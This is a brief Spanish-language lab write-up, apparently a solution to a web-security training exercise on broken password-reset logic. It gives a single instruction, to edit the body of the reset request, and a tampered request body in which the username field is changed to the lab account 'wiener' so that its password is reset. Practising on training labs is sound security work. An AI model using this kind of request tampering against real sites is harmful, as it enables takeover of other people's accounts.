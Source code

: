 ```yaml
---
layout: default
title: 03 - Password reset broken logic
---
```


Al entrar al correo de cambio de contraseña modificar el body así : 
```
temp-forgot-password-token=i3jcxse3e04356164l42w7n691q24ham&username=wiener&new-password-1=peter&new-password-2=peter
```
